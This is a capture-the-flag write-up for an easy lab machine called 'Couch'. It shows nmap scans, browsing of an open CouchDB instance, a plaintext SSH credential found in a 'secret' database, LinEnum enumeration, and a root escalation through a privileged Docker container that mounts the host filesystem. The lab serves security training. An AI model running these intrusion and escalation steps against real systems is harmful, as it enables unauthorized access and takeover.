 # Couch
Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.
## Difficulty: Easy

## Information Gatherings
```bash
nmap -sC -sV 10.201.15.188 -oN couch_nmap

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 15:53 WIB
Nmap scan report for 10.201.15.188
Host is up (0.44s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.52 seconds
```
Trying `-p 22,80,5984`

because when I searched in the browser `couch database whice port working` the result came up `Apache CouchDB typically uses TCP port 5984 for its main HTTP interface, which handles most of the interaction with the database.`
```bash
nmap -sC -sV 10.201.15.188 -p 22,80,5984  -oN couch_nmap

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 15:57 WIB
Nmap scan report for 10.201.15.188
Host is up (0.28s latency).

PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
80/tcp   closed http
5984/tcp open   http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.28 seconds
```
## Enumeration
We found 2 port open `port 22 & 5984`

Next search in browser `http://10.201.15.188:5984/`
```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```
Next `10.201.15.188:5984/_utils/`
and `http://10.201.15.188:5984/_all_dbs/`

In `http://10.201.15.188:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`

We found password backup
```
atena:t4qfzcc4qN##
```
## Exploit
```bash
ssh atena@10.201.15.188
The authenticity of host '10.201.15.188 (10.201.15.188)' can't be established.
ED25519 key fingerprint is SHA256:QXIT4W/vOthS71YtOAr7s67oloxpMmr0GLRVL9iVFJM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.201.15.188' (ED25519) to the list of known hosts.
atena@10.201.15.188's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ 
```
```bash
atena@ubuntu:~$ ls
user.txt
```
`Yeyy we found user.txt!`

## Privilege Escalation
```bash
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```
```bash
atena@ubuntu:~$ find / -perm -u=s 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/bin/fusermount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
```bash
atena@ubuntu:~$ cd /tmp
```
```bash
santstyle ~/Toolspython3 -m http.server
```
```bash
atena@ubuntu:/tmp$ wget LinEnum.sh
```
```bah
atena@ubuntu:/tmp$ chmod +x LinEnum.sh
atena@ubuntu:/tmp$ ./LinEnum.sh
```
We found this `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
`
```bash
atena@ubuntu:/tmp$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/sh
/ # whoami
root
```
```bash
# cd root
# ls
root.txt
```
`Finnaly we found root.txt!`